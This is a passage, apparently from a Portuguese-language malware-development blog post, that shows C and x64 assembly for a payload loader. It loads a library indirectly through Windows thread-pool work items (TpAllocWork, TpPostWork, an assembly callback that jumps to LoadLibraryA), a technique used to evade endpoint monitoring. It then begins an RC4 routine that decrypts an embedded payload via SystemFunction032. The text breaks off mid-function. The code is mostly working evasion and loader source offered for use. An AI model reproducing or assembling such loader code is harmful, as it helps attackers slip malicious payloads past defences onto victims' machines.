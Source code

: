 ```c
    typedef NTSTATUS (NTAPI *TPALLOCWORK)(PTP_WORK*, PTP_WORK_CALLBACK, PVOID, PTP_CALLBACK_ENVIRON);
    typedef VOID     (NTAPI *TPPOSTWORK)(PTP_WORK);
    typedef VOID     (NTAPI *TPRELEASEWORK)(PTP_WORK);

    TPALLOCWORK   TpAllocWork   = (TPALLOCWORK)pTpAllocWork;
    TPPOSTWORK    TpPostWork    = (TPPOSTWORK)pTpPostWork;
    TPRELEASEWORK TpReleaseWork = (TPRELEASEWORK)pTpReleaseWork;

    PTP_WORK work = NULL;
    NTSTATUS status = TpAllocWork(&work, WorkCallback, (PVOID)libName, NULL);
    if (status != 0) {
        printf("[-] TpAllocWork falhou: 0x%lX\n", status);
        return NULL;
    }

    TpPostWork(work);
    TpReleaseWork(work);
    Sleep(1000);

    return GetModuleHandleA(libName);
}
```
## Callback em Assembly (x64)

```asm
.code
PUBLIC WorkCallback
EXTERN getLoadLibraryA:PROC

WorkCallback PROC
    mov rcx, rdx
    xor rdx, rdx
    call getLoadLibraryA
    jmp rax
WorkCallback ENDP
```
## Descriptografia RC4

Bom, quem já viu minhas postagens anteriores sabe que não adianta, vou continuar utilizando essa **bomba**, por isso, acho que não tenho mais nada a acrescentar. 😂

```c
typedef struct _USTRING {
    ULONG Length;
    ULONG MaximumLength;
    PWSTR Buffer;
} USTRING;

typedef LONG NTSTATUS;

typedef NTSTATUS(NTAPI* fnSystemFunction032)(
    USTRING* Img,
    USTRING* Key
    );

BOOL RC4DEC(IN PBYTE pRc4Key, IN PBYTE pPayloadData, IN DWORD dwRc4KeySize, IN DWORD sPayloadSize) {
	NTSTATUS STATUS;
	USTRING Key = { dwRc4KeySize, dwRc4KeySize, (PWSTR)pRc4Key };
	USTRING Img = { sPayloadSize, sPayloadSize, (PWSTR)pPayloadData };
	char a_dll_name[] = "Advapi32.dll";
	char NotSysFunc32[] = "SystemFunction032";
```